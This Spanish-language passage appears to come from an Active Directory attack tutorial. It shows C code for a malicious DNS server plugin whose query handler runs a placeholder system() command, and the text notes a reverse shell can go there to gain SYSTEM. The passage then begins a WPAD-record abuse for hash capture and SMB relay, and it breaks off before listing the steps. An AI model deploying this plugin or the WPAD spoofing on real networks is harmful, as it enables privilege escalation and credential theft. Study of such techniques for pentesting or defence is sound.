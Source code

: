 ```c
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginQuery(PSTR pszQueryName, WORD wQueryType, PSTR pszRecordOwnerName, PDB_RECORD *ppDnsRecordListHead)
{
	FILE * kdns_logfile;
#pragma warning(push)
#pragma warning(disable:4996)
	if(kdns_logfile = _wfopen(L"kiwidns.log", L"a"))
#pragma warning(pop)
	{
		klog(kdns_logfile, L"%S (%hu)\n", pszQueryName, wQueryType);
		fclose(kdns_logfile);
	    system("ENTER COMMAND HERE");
	}
	return ERROR_SUCCESS;
}
```






* `kdns_DnsPluginInitialize(...)` y `kdns_DnsPluginCleanup()` — funciones de inicialización/limpieza que retornan `ERROR_SUCCESS` (0) para indicar que todo bien.
* `kdns_DnsPluginQuery(...)` — función llamada por el servicio DNS cuando procesa una query. En el ejemplo:

  * Se abre o crea un fichero de log `kiwidns.log` y escribe la consulta (`pszQueryName` y `wQueryType`).
  * Luego ejecuta `system("ENTER COMMAND HERE");` — aquí se puede poner una línea para lanzar una reverse shell o cualquier comando.
* **Concepto:** colocar comandos en `system()` dentro de la función que se ejecuta con contexto del servicio permite ejecución de comandos como SYSTEM.

---

## Otra forma de abuso: crear un registro WPAD

**Contexto:** WPAD (Web Proxy Auto-Discovery) permite a clientes autoconfigurarse para usar un proxy en la red. Si un atacante agrega un registro DNS `wpad.<dominio>` apuntando al atacante, muchos hosts que ejecuten WPAD con la configuración predeterminada consultarán esa entrada y podrán ser forzados a usar el proxy del atacante.

Podríamos usar una herramienta como [Responder](https://github.com/lgandx/Responder) o [Inveigh](https://github.com/Kevin-Robertson/Inveigh) para spoofear el tráfico e intentar capturar hashes de contraseñas y descifrarlos sin conexión, o bien, realizar un ataque SMBRelay.

**Protección por defecto:** los servidores DNS introdujeron una *global query block list* que bloquea nombres problemáticos por defecto (ej. `wpad`, `isatap`).

**Pasos del texto para abusar:**
